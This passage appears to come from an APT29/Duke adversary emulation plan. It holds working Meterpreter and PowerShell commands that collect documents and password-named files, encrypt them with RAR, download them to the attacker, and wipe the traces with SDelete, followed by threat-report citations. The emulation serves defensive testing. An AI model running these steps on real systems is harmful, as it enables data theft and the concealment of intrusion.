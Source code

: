 [meterpreter\*] > `execute -f powershell.exe -i -H`

[meterpreter (PowerShell)\*] >

```powershell
$env:APPDATA;$files=ChildItem -Path $env:USERPROFILE\ -Include *.doc,*.xps,*.xls,*.ppt,*.pps,*.wps,*.wpd,*.ods,*.odt,*.lwp,*.jtd,*.pdf,*.zip,*.rar,*.docx,*.url,*.xlsx,*.pptx,*.ppsx,*.pst,*.ost,*psw*,*pass*,*login*,*admin*,*sifr*,*sifer*,*vpn,*.jpg,*.txt,*.lnk -Recurse -ErrorAction SilentlyContinue | Select -ExpandProperty FullName; Compress-Archive -LiteralPath $files -CompressionLevel Optimal -DestinationPath $env:APPDATA\working.zip -Force
```

[meterpreter (PowerShell)\*] > `cd C:\Windows\Temp`

[meterpreter (PowerShell)\*] > `.\Rar.exe a -hpfGzq5yKw "$env:USERPROFILE\Desktop\working.zip" "$env:APPDATA\working.zip"`

[meterpreter (PowerShell)\*] > `exit`

[meterpreter\*] > `download "C:\\Users\\<username>\\Desktop\\working.zip" .`

##### 9.C - Indicator Removal on Host: File Deletion ([T1107](https://attack.mitre.org/versions/v6/techniques/T1107/) / [T1070.004](https://attack.mitre.org/techniques/T1070/004/))

[meterpreter\*] > `shell`

[meterpreter (Shell)\*] > `cd "C:\Windows\Temp"`

[meterpreter (Shell)\*] > `.\sdelete64.exe /accepteula "C:\Windows\Temp\Rar.exe"`

[meterpreter (Shell)\*] > `.\sdelete64.exe /accepteula "C:\Users\<username>\AppData\Roaming\working.zip"`

[meterpreter (Shell)\*] > `.\sdelete64.exe /accepteula "C:\Users\<username>\Desktop\working.zip"`

[meterpreter (Shell)\*] > `del "C:\Windows\Temp\sdelete64.exe"`

**Terminate Session**

[meterpreter (Shell)\*] > `exit`
[meterpreter\*] > `exit`
msf> `exit`

### Cited Intelligence

* Open Invitation Contributors: Kaspersky, Microsoft, SentinelOne

* CosmicDuke’s information stealing functionality has included stealing user files with file extensions that match a predefined list and exfiltrating collected data via HTTPS. SeaDuke can execute command such as uploading and
downloading files. <sup> [1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf), [2](https://blog-assets.f-secure.com/wp-content/uploads/2019/10/15163405/CosmicDuke.pdf) </sup>

* MiniDuke can download and execute new malware and lateral movement tools.<sup> [3](https://securelist.com/the-miniduke-mystery-pdf-0-day-government-spy-assembler-0x29a-micro-backdoor/31112/) </sup>

* SeaDuke has contained commands to download and Base-64-encode files.<sup> [4](https://unit42.paloaltonetworks.com/unit-42-technical-analysis-seaduke/) </sup>
